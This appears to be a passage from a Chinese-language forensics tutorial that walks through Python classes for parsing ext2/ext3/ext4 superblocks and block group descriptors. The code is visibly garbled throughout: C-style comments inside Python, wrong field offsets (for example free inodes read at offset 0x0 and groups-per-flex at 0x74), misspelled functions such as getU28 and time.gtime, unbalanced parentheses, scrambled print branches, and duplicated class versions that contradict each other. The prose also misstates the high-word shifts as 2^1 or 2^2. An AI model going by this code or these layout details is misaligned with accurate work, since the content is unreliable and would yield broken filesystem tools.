### `GroupDescriptor` 类定义

```python
class GroupDescriptor():

    def __init__(self, data, wide=False):

        /* 块位图映射 */

        self.blockBitmapLo=getU32(data)

        /* inode 位图块 */

        self.inodeBitmapLo=getU32(data, 4)

        /* inode 表块 */

        self.inodeTableLo=getU32(data, 8)

        /* 空闲块计数 */

        self.freeBlocksCountLo=getU16(data, 0x0c)

        /* 空闲 inode 计数 */

        self.freeInodesCountLo=getU16(data, 0x0)

        /* 目录计数 */

        self.usedDirsCountLo=getU16(data, 0x10)

        /* EXT4_BG 标志 (INODE_UNINIT, 等) */

        self.flags=getU16(data, 0x12)

        self.flagsList = self.printFlagList()

        /* 用于快照的排除位图 */

        self.excludeBitmapLo=getU32(data, 0x14)

        /* crc32c (s_uuid+grp_num+bmap) LE */

        self.blockBitmapCsum=getU16(data, 0x18)

        /* crc32c (s_uuid+grp_num+ibitmap) LE */

        self.inodeBitmapCsum=getU16(data, 0x1a)

        /* 未用 inode 计数 */

        self.itableUnusedLo=getU16(data, 0x1c)

        /* crc16 (sb_uuid+group+desc) */

        self.checksum=getU16(data, 0x1e)

        if wide==True:

            /* 块位图块 MSB */

            self.blockBitmapHi=getU32(data, 0x20)

            /* inode 位图块 MSB */

            self.inodeBitmapHi=getU32(data, 0x24)

            /* inode 表块 MSB */

            self.inodeTableHi=getU32(data, 0x28)

            /* 空闲块计数 MSB */

            self.freeBlocksCountHi=getU16(data, 0x2c)

            /* 空闲 inode 计数 MSB */

            self.freeInodesCountHi=getU16(data, 0x2e)

            /* 目录计数 MSB */

            self.usedDirsCountHi=getU16(data, 0x30)

            /* 未用 inode 计数 MSB */

            self.itableUnusedHi=getU16(data, 0x32)

            /* 排除位图块 MSB */

            self.excludeBitmapHi=getU32(data, 0x34)

        /* *

        crc32c(s.uuid+grp_num+bmap) BE */

        self.blockBitmapSumHi=getU16(data, 0x38)

        /* *

        crc32c(s.uuid+grp_num+bmap) BE */

        self.inodeBitmapSumHi=getU16(data, 0x3a)

        self.reserved=getU32(data, 0x3c)

    def printFlagSet(self):

        flagList = []

        # inode 表和位图未初始化 (EXT4_BG_INODE_UNINIT)

        if self.flags & 0x1:

            flagList.append('Inode Uninitialized')

        # 块位图未初始化 (EXT4_BG_BLOCK_UNINIT)

        if self.flags & 0x2:

            flagList.append('Block Uninitialized')

        # inode 表已清零 (EXT4_BG_INODE_ZEROED)

        if self.flags & 0x4:

            flagList.append('Inode Zeroed')

        return flagList

    def prettyPrint(self):

        for k, v in sorted(self.items()):

            print(k + " " + v)

```

新类的定义非常直观。请注意，构造函数接受一个可选参数，用于指示是否使用了 64 位模式。`GroupDescriptor` 本身在定位、读取和解释组描述符方面并不困难。之所以这样做，是因为需要从超级块获取数据以创建一个新的 `ExtMetadata` 类，用于扩展元数据，该类结合了来自超级块和组描述符的信息，以解决这个问题。该类的代码如下。

### `ExtMetadata` 类定义

```python
class ExtMetadata:

    def __init__(self, filename, offset):

        # 读取第一个扇区

        if not os.path.isfile(filename):

            print("file " + str(filename) + " cannot be opened for reading")

            exit(1)

        with open(filename, 'rb') as f:

            f.seek(1024 + int(offset) * 512)

            sbRaw = str(f.read(1024))

            superblock = Superblock(sbRaw)

            # 读取组描述符

            groupGroups = superblock.groupGroups()

            if superblock.descriptorSize != 0:

                wide = True

                descriptorSize = 64

            else:

                wide = False

                descriptorSize = 32

            # 读取组描述符

            with open(filename, 'rb') as f:

                f.seek(int(offset) * 512)

                bgd = f.read(descriptorSize)

                self.bgList = []

                for i in range(groupGroups):

                    bgd = GroupDescriptor(bgd)

                    self.bgList.append(bgd)

    def prettyPrint(self):

        for bgd in self.bgList:

            bgd.prettyPrint()

    def usage():

        print("usage " + sys.argv[0] + " <file> <offset in sectors>")

        exit(1)

    def main():

        if len(sys.argv) < 3:

            usage()
```


```python
if not os.path.isfile(sys.argv[1]):
    print("File " + sys.argv[1] + " cannot be opened for reading")
    exit(1)

emd = ExtMetadata(sys.argv[1], sys.argv[2])
emd.prettyPrint()

if __name__ == "__main__":
    main()
```

```python
def groupIndexFromBlock(self, blockNo):
    return blockNo % self.blocksPerGroup

def groupFromInode(self, inode):
    return (inode - 1) / self.inodesPerGroup

def groupIndexFromInode(self, inode):
    return (inode - 1) % self.inodesPerGroup
```

### `Superblock` 类的 `groupHasSuperblock`

`Superblock` 类最后一个添加的函数是 `groupHasSuperblock`。如果你将块组编号传递给此函数，它将告诉你（好吧，不是字面上的你，但它会返回一个值）根据正在使用的特性，该块是否包含超级。该函数的代码如下：

```python
def groupHasSuperblock(self, bgNo):
    # 块组 0 总是有一个超级
    if bgNo == 0:
        return True

    if 'Meta Block Groups' in self.incompatibleFeaturesList and \
        bgNo >= self.firstMetaBlockGroup:
            # 块组在每个元组的第一个、
            # 第二个和最后一个中拥有 sb 和 gdt
            # 块组大小为 blockSize/32
            # 只有部分文件使用此特性
            mbgSize = self.blockSize / 32
            retVal = (bgNo % mbgSize == 0) or \
                ((bgNo + 1) % mbgSize == 0) or \
                (bgNo - 1) % mbgSize == 0)

    elif 'Sparse Super' in self.compatibleFeaturesList:
        # self.backupBlockGroups 中有两个备份超级
        if bgNo == self.backupBlockGroups[0] or \
            bgNo == self.backupBlockGroups[1]:
            retVal = True

    elif 'Sparse Super' in self.readonlyCompatibleFeaturesList:
        # 备份在 1、3 的幂次和 5 的幂中
        retVal = (bgNo == 1) or \
            (bgNo == pow(3, round(bgNo) / log(3))) or \
            (bgNo == pow(5, round(bgNo) / log(5))) or \
            (bgNo == pow(7, round(bgNo) / log(7)))

    if retVal:
        return retVal
    else:
        # 如果我们运行到这里，必须是默认情况
        # 每个 bg 都有 sb 和 gdt
        retVal = True
        return retVal
```

该函数主要是一个大的 `if/elif/else` 块。它首先检查块组是否为 `0`。如果是，它会立即返回 `True`，因为第一个组中始终有一个超级。

接下来，我们检查 `Meta Block Groups`（元块组）特性。记住，该特性将文件系统分成多个元组。元组就像小文件系统，其组描述符仅与元组内部的块组相关。当此特性启用时，元组内的第一个、第二个和最后一个块组中有一个超级块和一个组描述符表。元组的大小始终为 `blocksize / 32`。此外，超级组可能只适用于磁盘的一部分，因此需要进行检查以确保我们处于存在元组的区域。

接下，我们检查 `Sparse Super 2`（稀疏超级 2）特性。该特性在超级中列出的两个组中存储备份超级。下一个检查是 `Sparse Super` 特性。如果正在使用此特性，备份超级位于组 `1` 且是 `3`、`5` 或 `7` 的幂次。这就是之前对数函数起作用的地方。对于 `$x$` 的任何偶次幂，`$x^{\text{rounded}(\log(n))}$` 应该等于 `$n$`。

### `GroupDescriptor` 与 `ExtendedDescriptor`

`GroupDescriptor` 类保持不变。我们添加了一个新类 `ExtendedDescriptor`，它将我们的超级块信息与组描述符相结合，以完整描述块组。这个新类在通用 `GroupDescriptor` 类发现的内容的基础上增加了布局信息。有些人可能会质疑，为什么我选择不让 `ExtendedDescriptor` 类继承（或扩展）`GroupDescriptor` 类。主要原因是 `GroupDescriptor` 类在存储原始数据结构上较小，而 `ExtendedDescriptor` 包含了从原始值派生的意义成员。该类的代码如下：

```python
class ExtendedDescriptor():
    def __init__(self, bgd, sb, bgNo):
        self.blockGroup = bgNo
        self.startBlock = sb.groupStartBlock(bgNo)
        self.endBlock = sb.groupEndBlock(bgNo)
        self.startInode = sb.groupStartInode(bgNo)
        self.endInode = sb.groupEndInode(bgNo)
        self.flags = bgd.printList()
        self.freeInodes = bgd.freeInodesCount
        if bgd.wide:
            self.freeInodes += bgd.freeInodesHi * pow(2, 16)
        self.freeBlocks = bgd.freeBlocksCount
        if bgd.wide:
            self.freeBlocks += bgd.freeBlocksCount * pow(2, 16)
        self.directories = bgd.usedDirsCount
        if bgd.wide:
            self.directories += bgd.usedDirsHi * pow(2, 16)
        self.checksum = bgd.blockBitmapCsumLo
        if bgd.wide:
            self.checksum += bgd.blockBitmapCsumHi * pow(2, 16)
            self.inodeBitmapChecksum = bgd.inodeBitmapCsumLo
        if bgd.wide:
            self.inodeBitmapChecksum += bgd.inodeBitmapHi * pow(2, 16)
        # 现在确定布局并存储在列表中（嵌套列表）
        self.layout = []
        self.nonDataBlocks = 0
        # 为灵活块组进行调整
        fbgAdj = 1
        if 'Flexible Block Groups' in sb.incompatibleFeaturesList:
            # 仅影响灵活组中的第一个组
            if bgNo % sb.groupsPerFlex == 0:
                fbgAdj = sb.groupsPerFlex
            if sb.groupHasSuperblock(bgNo):
```


```python
self.layout.append(['Superblock', self.startBlock])

gdSize = sb.groupDescriptorSize() * sb.blockGroups() / sb.blockSize

self.layout.append(['Group Descriptor Table', self.startBlock + 1, self.startBlock + gdSize])

self.nonDataBlocks += gdSize + 1

if sb.reservedGdtBlocks > 0:
    self.layout.append(['Reserved GDT Blocks', self.startBlock + gdSize + 1, self.startBlock + gdSize + sb.reservedGdtBlocks])
    self.nonDataBlocks += sb.reservedGdtBlocks

bbm = bgd.blockBitmapLo

if bgd.wide:
    bbm += bgd.blockBitmapHi * pow(2, 32)
    self.layout.append(['Data Block Map', bbm])

# 块位是否在该组中（灵活组除外）
if sb.groupFromBlock(bbm) == bgNo:
    self.nonDataBlocks += fbgAdj

ibm = bgd.inodeBitmapLo

if bgd.wide:
    ibm += bgd.inodeBitmapHi * pow(2, 32)
    self.layout.append(['Inode Bitmap', ibm])

# 节点位是否在该组中？
if sb.groupFromBlock(ibm) == bgNo:
    self.nonDataBlocks += fbgAdj

it = bgd.inodeTableLo

if bgd.wide:
    it += bgd.inodeTableHi * pow(2, 32)

itBlocks = (sb.inodePerGroup * sb.inodeSize) / sb.blockSize

self.layout.append(['Inode Table', it + itBlocks - 1])

# 节点表是否在该组中？
if sb.groupFromBlock(it) == bgNo:
    self.nonDataBlocks += itBlocks * fbgAdj

self.layout.append(['Data Blocks', self.startBlock + self.nonDataBlocks, self.endBlock])

def prettyPrint(self):
    print("")
```

### 构造函数说明

构造函数中有几点可能需要解释。你会看到读取 `bgd.wide` 的行：在赋值之后，如果该语句为真（使用宽模式或 64 位模式），则会将另一个乘以 $2^1$ 或 $2^2$ 的值加到新赋值的值上。这允许将存储在 64 位文件组描述符的两个字段中的原始值正确地存储在单个值中。

记住，某些块组可能缺少某些项，存在的项目顺序始终是超级块、组描述符表、保留组块、数据块位图、节点位图、节点表和数据块。在构建名为 `layout` 的列表（一个包含描述符、起始块和结束块的列表列表）之前，构造函数会检查 `Flexible Block Groups`（灵活块组）特性。

作为提醒，此特性允许将灵活组的元数据存储在灵活组内的第一个块组中。由于第一个块组存储了整个灵活组的所有描述符、位图和节点，因此调整因子 `fbgAdj` 被设置为灵活组中的组数，以便向块组布局中添加正确数量的块。构造函数中使用的模运算符 (`%`) 用于确定我们是否处于灵活组的开头。一旦你理解了灵活组的计算，构造函数就变得易懂了。

```python
# 这个函数没有解包字符串，因为
# 它不是数字，而是一个 UUID

def getU128(data, offset=0):
  return data[offset:offset+16]

def printUUID(data):
  retStr = format(struct.unpack('<Q', data[8:16])[0], 'X').zfill(16) + \
  format(struct.unpack('<Q', data[0:8])[0], 'X').zfill(16)
  return retStr

def getCompatibleFeaturesList(u32):
  retList = []
  if u32 & 0x01:
    retList.append('Directory Preallocate') # 目录预分配
  if u32 & 0x02:
    retList.append('Imagic Inodes') # Imagic Inodes
  if u32 & 0x04:
    retList.append('Has Journal') # 带有日志
  if u32 & 0x08:
    retList.append('Extended Attributes') # 扩展属性
  if u32 & 0x10:
    retList.append('Resize Inode') # 调整 Inode
  if u32 & 0x20:
    retList.append('Directory Index') # 目录索引
  if u32 & 0x40:
    retList.append('Lazy Block Groups') # 懒性块组
  if u32 & 0x80:
    retList.append('Exclude Inode') # 排除 Inode
  if u32 & 0x100:
    retList.append('Exclude Bitmap') # 排除位图
  if u32 & 0x200:
    retList.append('Sparse Super 2') # 稀疏超级块 2
  return retList

def getcompatibleFeaturesList(u32):
  retList = []
  if u32 & 0x01:
    retList.append('Compression') # 压缩
  if u32 & 0x02:
    retList.append('Filetype') # 文件类型
  if u32 & 0x04:
    retList.append('Recover') # 恢复
  if u32 & 0xB8:
    retList.append('Journal Device') # 日志设备
  if u32 & 0x10:
    retList.append('Meta Block Groups') # 元块组
  if u32 & 0x40:
    retList.append('Extents') # 范围
  if u32 & 0x80:
    retList.append('64-bit') # 64位
  if u32 & 0x100:
    retList.append('Multiple Mount Protection') # 多次挂载保护
  if u32 & 0x200:
    retList.append('Flexible Block Groups') # 灵活块组
  if u32 & 0x400:
    retList.append('Extended Attributes in Inodes') # Inode 中的扩展属性
  if u32 & 0x1000:
    retList.append('Directory Data') # 目录数据
  if u32 & 0x2000:
    retList.append('Block Group Metadata Checksum') # 块组元数据校验和
  if u32 & 0x4000:
    retList.append('Large Directory') # 大目录
```


```python
if u32 & 0x8000:
    retList.append('Inline Data') # 内联数据

if u32 & 0x10000:
    retList.append('Encrypted Inodes') # 加密 Inode

return retList

def getReadOnlyCompatibleFeaturesList(u32):
  retList = []

  if u32 & 0x1:
    retList.append('Sparse Super') # 稀疏超级块

  if u32 & 0x2:
    retList.append('Large File') # 大文件

  if u32 & 0x4:
    retList.append('Btree Directory') # Btree 目录

  if u32 & 0x8:
    retList.append('Huge File') # 巨大文件

  if u32 & 0x10:
    retList.append('Group Descriptor Table Checksum') # 组描述表校验和

  if u32 & 0x20:
    retList.append('Directory Nlink') # 目录链接数

  if u32 & 0x40:
    retList.append('Extra Isize') # 额外 Isize

  if u32 & 0x80:
    retList.append('Has Snapshot') # 带有快照

  if u32 & 0x100:
    retList.append('Quota') # 配额

  if u32 & 0x200:
    retList.append('Big Alloc') # 大内存分配

  if u32 & 0x400:
    retList.append('Metadata Checksum') # 元数据校验和

  if u32 & 0x800:
    retList.append('Replica') # 副本

  if u32 & 0x1000:
    retList.append('Read-only') # 只读

  return retList
```

此类将解析来自扩展 (`ext2`/`ext3`/`ext4`) Linux 文件系统的超级块中的数据。
截至 2015 年 7 月为最新状态。
用法：`sb.Superblock(data)`，其中
`data` 是一个至少 1024 字节的紧包字符串，
其前 1024 字节包含一个超级块。
`sb.prettyPrint()` 会打印超级块中的所有字段。

```python
class Superblock():
    def __init__(self, data):
        self.totalInodes = getU32(data) # 总 Inode 数
        self.totalBlocks = getU32(data, 4) # 总块数
        self.restrictedBlocks = getU32(data, 8) # 受限块数
        self.freeBlocks = getU32(data, 0xc) # 空闲块数
        self.freeInodes = getU32(data, 0x10) # 空闲 Inode 数
        # 除非块大小小于 4，否则正常
        self.firstDataBlock = getU32(data, 0x14)
        # 块大小 = 1024 * 2^(字段值)
        self.blockSize = pow(2, getU32(data, 0x18))
        # 仅在 bigalloc 特性下
        self.clusterSize = pow(2, getU32(data, 0x1c))
        self.blocksPerGroup = getU32(data, 0x20) # 每组块数
        # 仅在 bigalloc 特性下
        self.clustersPerGroup = getU32(data, 0x24) # 每组簇数
        self.inodesPerGroup = getU32(data, 0x28) # 每组 Inode 数
        self.mountTime = time.gtime(getU32(data, 0x2c)) # 挂载时间
        self.writeTime = time.gtime(getU32(data, 0x30)) # 写时间
        # 自上次 fsck 起
        self.mountCount = getU16(data, 0x34) # 挂载次数
        # 两次 fsck 之间
        self.maxMountCount = getU16(data, 0x36) # 最大挂载次数
        # 应为 0xef
        self.magic = getU16(data, 0x38) # 魔幻数
        # 0x01/0x02/0x04 = 干净卸载/错误/崩溃
        self.state = getU16(data, 0x3a) # 状态
        # 错误 1/2/3 继续只读
        self.errors = getU16(data, 0x3c) # 错误计数
        self.minorRevision = getU16(data, 0x3e) # 小版本
        # 上次 fsck
        self.lastCheck = time.gtime(getU32(data, 0x40)) # 最后检查时间
        # 检查间隔秒
        self.checkInterval = getU32(data, 0x44) # 检查间隔
        # 0/1/2/3/4 Linux/Hard/FreeBSD/Linux
        self.creatorOs = getU32(data, 0x48) # 创建操作系统
        # 0/1/v2 动态 inode 大
        self.revisionLevel = getU32(data, 0x4c) # 版本级别
        # 预留块的 UID
        self.defaultUid = getU16(data, 0x50) # 默认 UID
        # 预留块的 GID
        self.defaultGid = getU16(data, 0x52) # 默认 GID
        # 仅 Ext4 动态
        self.firstInode = getU32(data, 0x54) # 第一个 inode
        # inode 大字节字节
        self.inodeSize = getU16(data, 0x58)
        # 该超级块所在的块组
        self.blockGroupNumber = getU16(data, 0x5a) # 块组号
        # 兼容特性
        self.compatibleFeatures = getU32(data, 0x5c)
        self.compatibleFeaturesList = getCompatibleFeaturesList(self.compatibleFeatures)
        # 不兼容特性
        self.incompatibleFeatures = getU32(data, 0x60)
        self.incompatibleFeaturesList = getIncompatibleFeaturesList(self.incompatibleFeatures)
        # 只读兼容特性
        self.readOnlyCompatibleFeatures = getU32(data, 0x64)
        self.readOnlyCompatibleFeaturesList = getReadOnlyFeaturesList(self.readOnlyCompatibleFeatures)
        # 紧包字符串卷 UUID
        self.uuid = getU28(data, 0x68)
        # 卷名 - 可能为空
        self.volumeName = data[0x78:0x88].split("\x00")[0]
        # 最后挂载的目录
```


# ext4 超级块字段解析

```python
self.lastMounted = data[0x88:0xc8].split("\x00")[0]
```

## 用于压缩

```python
self.algorithmUsageBitmap = getU32(data, 0xc8)
```

## ext4 中不使用

```python
self.preallocBlocks = getU8(data, 0xcc) # 预分配块
```

## 仅在 DIR_PREALLOC 特性下

```python
self.preallocDirBlock = getU8(data, 0xcd)
```

## 预留给未来扩展的块

```python
self.reservedGdtBlocks = getU16(data, 0xce)
```

## 日志超级块 UUID

```python
self.journalUuid = getU128(data, 0xd0)
```

## 日志文件 inode 号

```python
self.journalInode = getU32(data, 0xe0)
```

## 外部日志的设备号

```python
self.journalDev = getU32(data, 0xe4)
```

## 孤立 inode 列表起始

```python
self.lastOrphan = getU32(data, 0xe8)
```

```python
self.hashSeed = []
```

## htree seed

```python
self.hashSeed.append(getU32(data, 0xec))
self.hashSeed.append(getU32(data, 0xf0))
self.hashSeed.append(getU32(data, 0xf4))
self.hashSeed.append(getU32(data, 0xf8))
```

## 0/1/2/3/4 Linux/Hard/FreeBSD/Linux

```python
self.hashVersion = getU8(data, 0xfc)
self.journalType = getU8(data, 0xfd)
```

## 启用 64 位描述符大小

```python
self.descriptorSize = getU16(data, 0xfe)
self.defaultMounts = getU32(data, 0x100)
```

## 仅在 meta 特性下

```python
self.firstTextBlock = getU32(data, 0x104)
```

## 文件系统创建时间

```python
self.mkfsTime = time.gtime(getU32(data, 0x108))
```

```python
self.journalBlocks = []
```

## 日志备份副本和大小

```python
for i in range(17):
    self.journalBlocks.append(getU32(data, 0x10c + i*4))
```

## 64 位模式

```python
self.blockCountHi = getU32(data, 0x150)
self.reservedBitCount = getU32(data, 0x154)
self.freeBlocksHi = getU32(data, 0x158)
```

## 所有节点至少此大小

```python
self.minInodeExtraSize = getU16(data, 0x15c)
```

## 新 inode 应该预留多少字节

```python
self.wantInodeExtraSize = getU16(data, 0x15e)
```

## 1/2/4 有符号哈希/无符号哈希/测试代码

```python
self.miscFlags = getU32(data, 0x160)
```

## 移动到下一个磁盘前读取的逻辑块数

```python
self.raidStride = getU16(data, 0x164)
```

## 多次挂载检查之间的等待秒数

```python
self.mpInterval = getU16(data, 0x166)
```

## MMP 数据块号

```python
self.mpBlock = getU64(data, 0x168)
```

## 回到此磁盘前的读/写块数

```python
self.raidStrideWidth = getU32(data, 0x170)
```

## 每个灵活组组组

```python
self.groupsPerFlex = pow(2, getU8(data, 0x74))
```

## 应为 1 表示 crc32

```python
self.metadataChecksumType = getU8(data, 0x175)
```

## 应为零

```python
self.reservedPath = getU16(data, 0x176)
```

## 所有时间写入的千字节

```python
self.kilobytesWritten = getU64(data, 0x178)
```

## 活跃快照 inode

```python
self.snapshotInode = getU32(data, 0x180)
```

## 活跃快照的 ID

```python
self.snapshotId = getU32(data, 0x184)
```

## 快照预留的块

```python
self.snapshotReservedBlocks = getU64(data, 0x188)
```

## 快照列表头节点的 inode 号

```python
self.snapshotList = getU32(data, 0x190)
```

```python
self.errorCount = getU32(data, 0x194)
```

## 首次检测到错误的时间

```python
self.firstErrorTime = time.gmtime(getU32(data, 0x198)
```

## 罪祸 inode

```python
self.firstErrorInode = getU32(data, 0x19c)
```

## 罪祸 block

```python
self.firstErrorBlock = getU64(data, 0x1a0)
```

## 罪祸函数

```python
self.firstErrorFunction = data[0xa8:0x1c8].split("\x00")[0]
```

## 错误发生的行号

```python
self.firstErrorLine = getU32(data, 0x18)
```

## 最后检测到错误的时间

```python
self.lastErrorTime = time.gmtime(getU32(data, 0x1cc))
```

## 罪祸 inode

```python
self.lastErrorInode = getU32(data, 0x1d0)
```

## 错误发生的行号

```python
self.lastErrorLine = getU32(data, 0x1d4)
```

## 罪祸 block

```python
self.lastErrorBlock = getU64(data, 0x1d8)
```

## 罪祸函数

```python
self.lastErrorFunction = data[0xe0:0x200].split("\x00")[0]
```

## 以空终止字符串中的挂载选项

```python
self.mountOptions = data[0x200:0x240].split("\x00")[0]
```

## 用户配额文件的 inode

```python
self.userQuotaInode = getU32(data, 0x240)
```

## 组配额文件的 inode

```python
self.groupQuotaInode = getU32(data, 0x244)
```

## 应该为零

```python
self.overheadBlocks = getU32(data, 0x248)
```

## 仅限超稀疏2

```python
self.backupBlockGroups = [getU32(data, 0x2ca), getU32(data, 0x250)]
```

```python
self.encryptionAlgorithms = []
for i in range(0, 4):
    self.encryptionAlgorithms.append(getU32(data, 0x254 + i*4))
self.checksum = getU32(data, 0x3fc)
```

```python
def blockGroups(self):
    bg = self.totalBlocks / self.blocksPerGroup
```


```python
if self.totalBlocks % self.blocksPerGroup != 0:
    bg += 1
return bg

def groupDescriptorSize(self):
    if '64-bit' in self.incompatibleFeaturesList:
        return 64
    else:
        return 32

def printState(self):
    # 0001/0002/0004 = 清洁卸载/错误/孤正在恢复
    retVal = "Unknown"
    if self.state == 1:
        retVal = "Cleanly unmounted"
    elif self.state == 2:
        retVal = "Errors detected"
    elif self.state == 4:
        retVal = "Orphans being recovered"
    return retVal

def printErrorBehavior(self):
    # 当错误 1/2/3 继续/只读/内核恐
    retVal = "Unknown"
    if self.errors == 1:
        retVal = "Continue"
    elif self.errors == 2:
        retVal = "Remount read-only"
    elif self.errors == 3:
        retVal = "Kernel panic"
    return retVal

def printCreator(self):
    # 0/1/2/3/4 Linux/Hurd/Masix/FreeBSD/Lites
    retVal = "Unknown"
    if self.creatorOs == 0:
        retVal = "Linux"
    elif self.creatorOs == 1:
        retVal = "Hurd"
    elif self.creatorOs == 2:
        retVal = "Masix"
    elif self.creatorOs == 3:
        retVal = "FreeBSD"
    elif self.creatorOs == 4:
        retVal = "Lites"
    return retVal

def printHashAlgorithm(self):
    # 0/1/2/3/4/5 legacy/half MD4/tea/u-legacy/u-half MD4/u-Tea
    retVal = "Unknown"
    if self.hashVersion == 0:
        retVal = "Legacy"
    elif self.hashVersion == 1:
        retVal = "Half MD4"
    elif self.hashVersion == 2:
        retVal = "Tea32sion"
    elif self.hashVersion == 3:
        retVal = "Unsigned Legacy"
    elif self.hashVersion == 4:
        retVal = "Unsigned Half MD4"
    elif self.hashVersion == 5:
        retVal = "Unsigned Tea"
    return retVal

def printEncryptionAlgorithms(self):
    enclList = []
    for v in self.encryptionAlgorithms:
        if v == 1:
            enclList.append('256-bit AES in XTS mode')
        elif v == 2:
            enclList.append('256-bit AES in GCM mode')
        elif v == 3:
            enclList.append('256-bit AES in CBC mode')
        elif v == 0:
            pass
        else:
            enclList.append('Unknown')
    return enclList

def pprint(self):
    for k, v in sorted(self._dict__.items()):
        if k == 'mountTime' or k == 'writeTime' or \
           k == 'journal' or k == 'mkfs' or \
           k == 'firstError' or k == 'lastError':
            print(k, v)
        elif k == 'state':
            print(k+":", self.printState())
        elif k == 'errors':
            print(k+":", self.printErrorBehavior())
        elif k == 'uuid' or k == 'journal':
            print(k+":", self.printCreator())
        elif k == 'creator':
            print(k+":", self.printHashAlgorithm())
        elif k == 'hashVersion':
            print(k+":", self.printEncryptionAlgorithms())
        elif k == 'encryptionAlgorithms':
            print(k+":", self.blockGroups())

def groupStartBlock(self, bgNo):
    return self.blocksPerGroup * bgNo

def groupEndBlock(self, bgNo):
    return self.blocksPerGroup * (bgNo + 1)

def groupStartInode(self, bgNo):
    return self.inodesPerGroup * bgNo

def groupEndInode(self, bgNo):
    return self.inodesPerGroup * (bgNo + 1)

def groupFromBlock(self, blockNo):
    return blockNo / self.blocksPerGroup

def groupIndexFromBlock(self, blockNo):
    return (blockNo - 1) % self.blocksPerGroup

def groupFromInode(self, inodeNo):
    return (inodeNo - 1) % self.inodesPerGroup

def groupHasSuperblock(self, bgNo):
    if bgNo == 0:
        return True
    return False

class GroupDescriptor():
    def __init__(self, data, wide=False):
        self.wide = wide
        # 块位
        self.blockBitmapLo = getU32(data)
        # inode 位图
        self.inodeBitmapLo = getU32(data, 4)
        # inode 表块
        self.inodeTableLo = getU32(data, 8)
        # 空闲块计数
        self.freeBlocksCount = getU16(data, 0xc)
        # 空闲 inode 计数
        self.freeInodesCount = getU16(data, 0xe)
```


# EXT4 标志

`self.flags = getU16(data, 0x10)`

## 空闲标志列表

`self.freeFlagList = self.printFlagList()`

## 快照排除位图

`self.excludeBitmapLo = getU32(data, 0x14)`

## crc32c (s_uuid+grp_num+bbitmap) LE

`self.blockBitmapSum = getU16(data, 0x18)`

## crc32c (s_uuid+grp_num+bbitmap) LE

`self.inodeBitmapSum = getU16(data, 0x1a)`

## 空闲 inode 计数

`self.itableUnusedLo = getU16(data, 0x1c)`

## crc16 (sb_uuid+group)

`self.checksum = getU16(data, 0x1e)`

if `wide`:

### 块位高位

`self.blockBitmapHi = getU32(data, 0x20)`

### inode 位图高位

`self.inodeBitmapHi = getU32(data, 0x24)`

### inode 表块高位

`self.inodeTableHi = getU32(data, 0x28)`

### 空闲块计数高位

`self.freeBlocksCountHi = getU16(data, 0x2c)`

### 空闲 inode 计数高位

`self.freeInodesCountHi = getU16(data, 0x2e)`

### 目录计数高位

`self.usedDirsCountHi = getU16(data, 0x30)`

### 空闲 inode 计数高位

`self.itableUnusedHi = getU16(data, 0x32)`

### 排除位图高位

`self.excludeBitmapHi = getU32(data, 0x34)`

```python
self.blockBitmapCsumHi=getU16(data, 0x38)

/* crc32c(s_uid+grp_num+ibitmap) BE */
self.inodeBitmapCsumHi=getU16(data, 0x3a)

self.reserved=getU32(data, 0x3c)

def printFlagList(self):
    flagList = []
    # inode table and bitmap are not initialized (EXT4_BG_INODE_UNINIT)
    if self.flags & 0x1:
        flagList.append('Inode Uninitialized')
    # block bitmap is not initialized (EXT4_BG_BLOCK_UNINIT)
    if self.flags & 0x2:
        flagList.append('Block Uninitialized')
    # inode table is zeroed (EXT4_BG_INODE_ZEROED)
    if self.flags & 0x4:
        flagList.append('Inode Zeroed')
    return flagList

def prettyPrint(self):
    for k, v in sorted(self.__dict__.items()):
        print(k+":=", v)
```

该类结合了块组描述符（block group descriptor）和超级块（superblock）的信息，以完整描述块组。信息更新至 2015 年 7 月。
用法示例：`egd = ExtendedGroupDescriptor(bgd, sb, bgNo)`，其中 `bgd` 是 `GroupDescriptor` 对象，`sb` 是 `Superblock` 对象，`bgNo` 是块组编号。
`egd.prettyPrint()` 会打印块组的各种统计数据及其布局。

```python
class ExtendedGroupDescriptor():
    def __init__(self, bgd, sb, bgNo):
        self.blockGroup = bgNo
        self.startBlock = sb.groupStartBlock(bgNo)
        self.endBlock = sb.groupEndBlock(bgNo)
        self.startInode = sb.groupStartInode(bgNo)
        self.endInode = sb.groupEndInode(bgNo)
        self.flags = bgd.printFlagList()
        self.freeInodes = bgd.freeInodesCount
        if bgd.wide:
            self.freeInodes += bgd.freeInodesCountHi * pow(2, 16)
        self.freeBlocks = bgd.freeBlocksCountLo
        if bgd.wide:
            self.freeBlocks += bgd.freeBlocksCountHi * pow(2, 16)
        self.directories = bgd.usedDirsCountLo
        if bgd.wide:
            self.directories += bgd.usedDirsCountHi * pow(2, 16)
        self.checksum = bgd.checksum
        self.blockBitmapChecksum = bgd.blockBitmapCsumLo
        if bgd.wide:
            self.blockBitmapChecksum += bgd.blockBitmapCsumHi * pow(2, 16)
        self.inodeBitmapChecksum = bgd.inodeBitmapCsumLo
        if bgd.wide:
            self.inodeBitmapChecksum += bgd.inodeBitmapCsumHi * pow(2, 16)
        # now figure out the layout and store it in a list (with lists inside)
        self.layout = []
        self.nonDataBlocks = 0
        # for flexible block groups must make an adjustment
        fbgAdj = 1
        if 'Flexible Block Groups' in sb.incompatibleFeaturesList:
            # only first group in flex block affected
            if bgNo % sb.groupsPerFlex == 0:
                fbgAdj = sb.groupsPerFlex
            if sb.groupHasSuperblock(bgNo):
                self.layout.append(['Superblock', self.startBlock, self.startBlock])
                gdSize = sb.groupDescriptorSize() * sb.blockGroups() / \
                    self.blockSize
```


### 代码片段

```python
self.layout.append(['Group Descriptor Table',
    self.startBlock + 1, self.startBlock + gdSize])
self.nonDataBlocks += gdSize + 1
if sb.reserveddtBlocks > 0:
    self.layout.append(['Reserved GDT Blocks',
        self.startBlock + gdSize + 1,
        self.startBlock + gdSize + sb.reserveddtBlocks])
    self.nonDataBlocks += sb.reserveddtBlocks

bbm = bgd.blockBitmapLo
if bgd.wide:
    bbm += bgd.blockBitmapHi * pow(2, 16)
self.layout.append(['Data Block Bitmap', bbm])
# is block bitmap in this group (not flex group, etc)
if sb.groupFromBlock(bbm) == bgNo:
    self.nonDataBlocks += fbgAdj

ibm = bgd.inodeBitmapMap
if bgd.wide:
    ibm += bgd.inodeBitmapHi * pow(2, 32)
self.layout.append(['Inode Bitmap', ibm])
# is inode bitmap in group?
if sb.groupFromBlock(ibm) == bgNo:
    self.nonDataBlocks += fbgAdj

it = bgd.inodeTableLo
if bgd.wide:
    it += bgd.inodeTableHi * pow(2, 32)
itBlocks = (sb.inodesPerGroup * sb.inodeSize) / sb.blockSize
